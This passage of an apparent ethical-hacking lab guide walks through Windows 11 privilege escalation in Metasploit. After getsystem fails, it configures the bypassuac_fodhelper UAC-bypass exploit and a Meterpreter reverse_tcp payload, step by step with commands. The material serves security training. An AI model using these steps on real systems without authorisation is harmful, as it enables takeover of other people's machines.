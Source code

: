 ```
The command issued is:
```
```
getsystem -t 1 : Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.
```
55. The command fails to escalate privileges and returns an error stating **Operation failed**.

### 


56. From the result, it is evident that the security configuration of the **Windows 11** machine is blocking you from gaining unrestricted
    access to it.
57. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.

```
Note: In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a
bypassuac_fodhelper exploit.
```
58. Type **background** and press **Enter**. This command moves the current Meterpreter session to the background.

### 


59. Now, we will use the **bypassuac_fodhelper** exploit for windows. To do so, type **use exploit/windows/local/bypassuac_fodhelper**
    and press **Enter**.

### 


60. Here, you need to configure the exploit. To know which options you need to configure in the exploit, type **show options** and press
    **Enter**. The **Module options** section appears, displaying the requirement for the exploit. Observe that the **SESSION** option is
    required, but the **Current Setting** is empty.
61. Type **set SESSION 1** ( **1** is the current Meterpreter session which is running in the background) and press **Enter**.

### 


62. Now that we have configured the exploit, our next step will be to set and configure a payload. To do so, type **set payload**
    **windows/meterpreter/reverse_tcp** and press **Enter**. This will set the **meterpreter/reverse_tcp** payload.
63. The next step is to configure this payload. To see all the options, you need to configure in the exploit, type **show options** and press
    **Enter**.

### 

